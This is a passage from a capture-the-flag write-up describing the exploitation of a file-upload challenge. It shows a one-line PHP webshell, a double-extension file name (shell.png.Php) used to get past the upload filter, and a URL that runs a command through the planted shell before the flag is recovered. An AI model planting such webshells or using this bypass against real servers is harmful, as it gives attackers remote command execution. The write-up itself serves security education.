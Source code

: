 <br>

![](../../src/blog/images/neuland-ctf-12-2023/upload3.png)

<br>

Furthermore, we set the content of the 'image' to a webshell:

```
<?php system($_REQUEST['cmd']); ?>
```

After some fuzzing, we were able to upload a file named shell.png.Php. Now, we can visit `http://78.46.78.30:1094/uploads/upload1.png.Php?cmd=ls` to view the contents of the previously identified uploads directory. 

<br>

![](../../src/blog/images/neuland-ctf-12-2023/upload4.png)

<br>

We find the flag within the `home` directory.

<br>

![](../../src/blog/images/neuland-ctf-12-2023/upload5.png)

<br>

The flag is `nland{tHANks_4_Ur_fE3DBAck}`.
